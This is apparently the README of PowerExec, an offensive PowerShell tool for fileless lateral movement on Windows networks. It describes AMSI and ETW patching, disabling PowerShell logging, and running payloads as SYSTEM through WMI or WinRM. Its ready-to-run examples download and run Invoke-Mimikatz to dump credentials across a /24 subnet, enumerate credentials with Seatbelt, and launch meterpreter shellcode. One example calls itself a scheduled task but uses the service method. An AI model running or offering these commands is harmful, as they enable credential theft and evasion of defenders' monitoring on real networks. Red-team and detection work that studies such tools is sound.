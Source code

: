 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

Payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                                            |
| --------------- | ---------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                 |
| CimTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via WMI |
| CimService      | Create temporary service running as NT AUTHORITY\SYSTEM via WMI        |
| CimSubscription | Create temporary WMI event subscription (experimental)                 |
| WinRM           | Run powershell via Windows Remote Management                           |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WMI using a download cradle while bypassing AMSI and ETW :

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -ArgumentList 'Invoke-Mimikatz -DumpCreds' -Bypass AMSI,ETW
PS C:\> Invoke-PowerExec -ComputerList 192.168.1.0/24 -ScriptBlock $payload -Method CimProcess -Protocol Wsman -Threads 10
```

Run a .NET assembly through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging :

```
PS C:\> New-PowerLoader -Type NetAsm -FilePath .\Seatbelt.exe -ArgumentList 'CredEnum' -Bypass AMSI,PML,SBL | Invoke-PowerExec -ComputerList 192.168.1.1,192.168.1.2 -Method WinRM
```

Run a shellcode through a scheduled task :

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
